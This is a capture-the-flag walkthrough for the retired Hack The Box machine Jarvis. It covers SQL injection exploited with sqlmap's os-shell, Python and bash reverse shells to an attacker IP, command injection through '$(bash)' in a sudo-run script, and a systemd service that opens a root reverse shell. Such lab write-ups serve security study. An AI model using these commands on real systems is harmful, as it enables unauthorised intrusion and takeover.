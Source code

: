 # Hack The Box - Jarvis walkthrough
![](/photos/jarvis.png)

This walkthrough is about the retired Jarvis machine of Hack The box.  
It is a Linux based machine.  
This machine has a static IP address <10.10.10.143>   
It was a nice bit easy machine.  
  
You have to found **user.txt** and **root.txt** flag.   

## Penetration Methodology

* **Scanning**
  * open ports and services
* **Enumeration**
  * Enumerating the website about vulnerablities
* **Exploitation**
  * SQLI
  * exploitation using sqlmap
  * os-shell with sqlmap
  * machine access with Reverse-shell
* **Post Exploitation**
  * getting user access
  * privelage escalation from user to root
  
Now start pentesting the **Jarvis** machine.  

## Checking for open ports and services

We used **nmap** for checing the open ports and what services are running.
![](/photos/nmap.png)

As we can see that port **22** and **80** are open.

**Now start enumerating the website**

When we reach the website we got a page like this  
![](/photos/page.png)

## Enumerating the Website

**While enumerating the website after some time we found a page room.php**  

![](/photos/sql_vul_room.png)

**This seems to be sql vulnerable** --> `<10.10.10.143/room.php?cod=1>` 

## Exploitation using sqlmap

Then we tried **sqlmap** with **--os-shell**
**using this** 
* `sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell`

![](/photos/sqlmap_1.png)

And we got the shell

![](/photos/sql_1.png)

Now we can use any reverse shell to get access of the machine

**I have used the python reverse shell**

Simply execute the reverse shell and also start the listener  

* `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

**We got the shell but it is not the proper user**

![](/photos/conn.png)

Now we are www-data user so we enumerate for **user.txt** flag

![](/photos/enu_ww.png)

As we can see that only root and pepper user has privelages to read **user.txt**  
So we have to escalate our privelage to **pepper** user.

## Post Exploitation

So after some enumerating I look into **sudoers file**

![](/photos/w_perm.png)

As we can see that **www-data** can run **/var/www/Admin-Utilities/simpler.py**  
with **pepper** user permission.

So we go through the **/var/www/Admin-Utilities/simpler.py** python file  
and in that we can see a **exec_ping** function and it looks something suspicious for privelage escalation to **pepper**.

![](/photos/ping.png)

As there are some blacklist symbols but **$** symbol is not blacklisted.  

So we simply run 
* ` sudo -u pepper /var/www/Admin-Utilities/simpler.py -p `
with **-p** which is ping option

Then it pop up with **Enter an IP** option  
There use the non-blacklisted symbol with bash command
* ` $(bash) `

![](/photos/pepper_shell.png)

**We got the pepper user**  

But we are not able to run any command so we try to get a reverse shell from **pepper** user  
and also start a listener

So I simply run a bash reverse shell command 
* `bash -i >& /dev/tcp/<your ip>/1234 0>&1`

And we got the new **pepper** user shell
Then we enumerate ffor **user.txt**
* `ls -al`
* `cat user.txt`

![](/photos/user.png)

Now we have to read our **root.txt** flag  
So for that we have to escalate our privelage to **root**.

So firstly we check for **SUID bit SET**
* `find / -perm -u=s -type f 2>/dev/null`

![](/photos/suid.png)

Here we find **/bin/systemctl** service running with **root** permission  

* As Systemctl is a systemd utility that is responsible for Controlling the systemd system and service manager.

So we make a new service named shell.service  
	
```
[Unit]
Description=hacking articles 
[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<your ip>/8888 0>&1'
[Install]
WantedBy=multi-user.target
```

Now download that service file from machine to **Jarvis** machine  
Now enable the service
* /bin/systemctl enable /home/pepper/shell.service
* /bin/systemctl start shell

![](/photos/ena.png)

Now start the listener again

![](/photos/root.png)

**We got the root.txt flag**
This is very good machine and I learn a lot of new things.

Author: Hardik Chugh
